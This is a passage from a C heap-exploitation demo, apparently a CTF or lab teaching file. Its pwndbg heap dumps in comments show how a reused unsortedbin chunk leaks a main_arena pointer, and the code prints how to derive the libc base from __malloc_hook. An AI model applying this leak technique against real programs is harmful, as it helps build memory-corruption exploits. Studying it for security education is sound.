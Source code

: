 ```c

	Allocated chunk
	Addr: 0x555555559710
	Size: 0x20 (with flag bits: 0x20)

	Top chunk | PREV_INUSE
	Addr: 0x555555559730
	Size: 0x208d0 (with flag bits: 0x208d1)

	
	*/

	chunk[15] = malloc(0x10);

	/*
	After we trigger:
	
	...
	Allocated chunk | PREV_INUSE
	Addr: 0x5555555595f0
	Size: 0x90 (with flag bits: 0x91)

	Allocated chunk | PREV_INUSE
	Addr: 0x555555559680
	Size: 0x20 (with flag bits: 0x21)

	Free chunk (unsortedbin) | PREV_INUSE
	Addr: 0x5555555596a0
	Size: 0x70 (with flag bits: 0x71)
	fd: 0x7ffff7fafbe0
	bk: 0x7ffff7fafbe0

	Allocated chunk
	Addr: 0x555555559710
	Size: 0x20 (with flag bits: 0x20)

	Top chunk | PREV_INUSE
	Addr: 0x555555559730
	Size: 0x208d0 (with flag bits: 0x208d1)
		
	*/
	
	/*
	Now we can leak libc
	
	pwndbg> x /4gx 0x555555559680
	0x555555559680:	0x0000000000000000	0x0000000000000021
	0x555555559690:	0x00007ffff7fafc60	0x00007ffff7fafc60
	pwndbg> x /gx 0x00007ffff7fafc60
	0x7ffff7fafc60 <main_arena+224>:	0x00007ffff7fafc50

	*/
	
	long long *ptr = (long long *)chunk[15];
	long long leak = ptr[0];
	printf("Now we get leak is : %p ;\nwhich is actually the address: <main_arena+224>\nSo we can get :\nlibcbase = leak - 224 - 0x10 - libc.sym['__malloc_hook']\n",leak);
	
	return 0;
}
```
